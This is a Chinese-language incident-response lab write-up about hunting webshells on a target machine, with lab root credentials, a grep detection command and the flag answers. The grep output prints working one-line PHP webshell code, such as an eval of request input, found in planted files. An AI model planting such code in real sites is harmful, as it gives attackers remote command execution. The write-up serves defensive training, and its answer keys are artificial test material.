


# 应急响应-Webshell查杀

## 概述
- 靶机名：`Webshell`查杀
- 靶机账号密码：`root`/`xjwebshell`
- 题目信息
  - 黑客`webshell`里面的`flag`
  - 黑客使用的什么工具的`shell`，`github`地址的`md5`
  - 黑客隐藏`shell`的完整路径的`md5`
  - 黑客免杀马完整路径的`md5`


## 分析

先简单查杀一下`Webshell`，发现存在四个木马，前两个为`Godzilla`生成的`Webshell`，在`/var/www/html/include/gz.php`中发现注释中存在疑似`flag`的字符串，并且

```bash
find /var/www/html -name "*.php" | xargs egrep 'assert|eval|phpinfo\(\)|\(base64_decoolcode|shell_exec|passthru|file_put_contents\(\.\*\$|base64_decode\('
```

```bash
/var/www/html/include/gz.php:           eval($payload);
/var/www/html/include/Db/.Mysqli.php:           eval($payload);
/var/www/html/wap/top.php:$fun = base64_decode($_GET['func']);
/var/www/html/shell.php:<?php phpinfo();@eval($_REQUEST[1]);?>
```



`/var/www/html/include/Db/.Mysqli.php`为隐藏的`Webshell`，`/var/www/html/wap/top.php`为免杀`Webshell`。



## Flag

- 黑客`webshell`里面的`flag`：`flag{027ccd04-5065-48b6-a32d-77c704a5e26d}`
- 黑客使用的什么工具的`shell`，`github`地址的`md5`：`flag{39392de3218c333f794befef07ac9257}`
- 黑客隐藏`shell`的完整路径的`md5`：`flag{aebac0e58cd6c5fad1695ee4d1ac1919}`
- 黑客免杀马完整路径的`md5`：`flag{eeff2eabfd9b7a6d26fc1a53d3f7d1de}`

